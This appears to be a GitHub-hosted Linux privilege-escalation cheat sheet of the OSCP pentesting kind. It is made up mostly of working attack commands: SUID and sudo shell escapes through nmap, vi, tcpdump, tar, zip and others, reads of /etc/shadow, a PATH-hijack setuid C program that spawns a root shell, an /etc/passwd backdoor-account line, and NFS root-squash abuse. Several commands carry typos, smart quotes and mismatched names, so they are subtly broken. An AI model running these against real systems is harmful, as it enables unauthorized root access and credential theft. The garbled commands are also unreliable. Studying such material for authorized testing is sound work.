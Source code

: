 ### Original artical - https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4

# Linux Pric Esc Commands

## 00 Useful tools

	- LinEnum
	https://github.com/rebootuser/LinEnum
	
	- linuxprivchecker
	https://github.com/sleventyeleven/linuxprivchecker
	
	- unix-privesc-check
	https://github.com/pentestmonkey/unix-privesc-check
	
	- suid3num.py (use without -e option in OSCP exam)
	https://github.com/Anon-Exploiter/SUID3NUM
	
	- LinPEAS (https://www.offensive-security.com/offsec/understanding-pentest-tools-scripts/)
	https://github.com/carlospolop/PEASS-ng
	* the repo also contains WinPEAS as well.
	Injecting sudo tokens  - > https://github.com/nongiach/sudo_inject
	

## 01 Kernel Exploit

	$ uname -a
	$ cat /etc/issue
	$ cat /etc/*-release
	$ cat /etc/lsb-release
	$ cat /etc/redhat-release
	$ lsb_release

## 02 Exploit the service running as root

For Samba 2.2.x, 
 - https://www.exploit-db.com/exploits/10

For MySQL, if there is mysql daemon running as root, you could utilize UDF (User Define Function) to get root shell.
 - https://www.exploit-db.com/exploits/1518

## 03 Find anything with SUID / SGID permission

### Finding interesting file

	$ find / -user root -perm -4000 2>/dev/null
	$ find / -perm -2000 2>/dev/null


### nmap 

	$ nmap --interactive
	nmap> !sh

	Another way below (if nmap doesn’t have interactive mode):
	$ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse)
	$ sudo nmap --script=/tmp/shell.nse)

### vi

	$ vi
	:!sh

### find
	$ find / home -exec sh -i \;

### python

	$ python -c ‘import pty;pty.spawn(“/bin/sh”)’

### strace

	$ strace -o /dev/null /bin/sh


### tcpdump

	$ echo $’id\ncat /etc/shadow’ > /tmp/.shell
	$ chmod +x /tmp/.shell
	$ tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root


If you find out one script file with SUID permission, owned by root and executable by others, and this script file will execute some commands. You can play the trick to get root shell. For example here, this script will execute scp command transferring some backup file to somewhere. Add . into $PATH and compile setuid.c, rename the compiled binary to scp and put it under current folder. And then run that script.

	$ export PATH=.:$PATH
	$ cat setuid.c
		#include <stdio.h>
		int main(void)
		{
		setuid(0); setgid(0); seteuid(0); setegid(0); execvp(“/bin/sh”, NULL, NULL);
		}
	$ mv setuid scp
	$ ./script.sh

### abuse sudo

Use the following command to show which command have allowed to the current user.

	$ sudo -l

And if you find the following command with NOPASSWD and root set in the output. You win again !!!

### zip

    $ sudo zip /tmp/test.zip /tmp/test -T --unzip-command=”sh -c /bin/bash”

### tar

    $ sudo tar cf /dev/null testfile --checkpoint=1 — checkpointaction=exec=/bin/bash

### strace

    $ sudo strace -o/dev/null /bin/bash

### tcpdump

    $ echo $’id\ncat /etc/shadow’ > /tmp/.shell
    $ chmod +x /tmp/.shell
    $ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root

### nmap

    $ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse
    $ sudo nmap --script=/tmp/shell.nse

    Another way below:
    ($ sudo nmap --interactive
    nmap> !sh)

### scp

    $ sudo scp -S /path/to/your/script x y

### except

    $ sudo except spawn sh then sh

### nano

    $ sudo nano -S /bin/bash

### git

    $ sudo git help status
    : !/bin/bash

### gdb/ftp

    $ sudo ftp
    : !/bin/sh



## 05 Find any writable file owned by root

Please use the following command to find any writable files owned by root. You might be able to see the script file and add the needed command for your privilege escalation.

    $ find / -perm -002 -user root -type f -not-path “/proc/*” 2>/dev/null

## 06 Check /etc/passwd if writable

If you see /etc/passwd is writable, the only thing you should do is to echo one line to /etc/passed

    $ echo “tseruser::0:0:pawned:/root:/bin/bash” >> /etc/passwd
    $ su testuser
	
## 07 NFS root squashing

According Wikipedia, root squash is a special mapping of the remote superuser (root) identity when using identity authentication (local user is the same as remote user). Under root squash, a client’s uid 0 (root) is mapped to 65534 (nobody). It is primarily a feature of NFS but may be available on other systems as well.

In the scenario which you use showmount to find your target has NFS service up and running and you’re already in via anyway and you find you have the permission to edit /etc/exports as well, for example, you can use sudoedit to edit /etc/exports. You can put no_root_squash to disable root squash. Please see below:

    /home/userfolder *(rw,no_root_squash)

And then you can mount this folder with local root and put the copy of /bin/bash into it. After this, try use the exploited normal account to execute this /bin/bash. You will get the heaven !!!

